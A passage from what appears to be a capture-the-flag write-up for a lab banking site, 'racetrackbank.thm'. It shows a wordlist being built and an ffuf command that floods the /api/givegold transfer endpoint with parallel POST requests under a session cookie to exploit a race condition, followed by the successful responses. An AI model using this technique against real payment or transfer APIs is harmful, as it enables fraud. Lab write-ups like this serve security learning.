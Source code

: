 ![image.png](image%2012.png)

`seq 1 1000 | awk '{print 1}' > wordlist_number.txt`

```bash
1
1
1
1
1
1
1
1
1
1
```

`ffuf -c -u http://racetrackbank.thm/api/givegold -X POST -w wordlist_number.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AlF7Vx_3YHB5MkjJScZlWB6gVszaY6r83.ry4skt5Ypt%2BSSilK1f8EOBmzdYspyz9zkfu4Kq1mHWQ" -d "user=otheruser&amount=FUZZ" -v`

```bash
[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1366ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1370ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1371ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1386ms]
| URL | http://racetrackbank.thm/api/givegold
| --> | /giving.html?success=Success!
    * FUZZ: 1

[Status: 302, Size: 51, Words: 4, Lines: 1, Duration: 1431ms]
```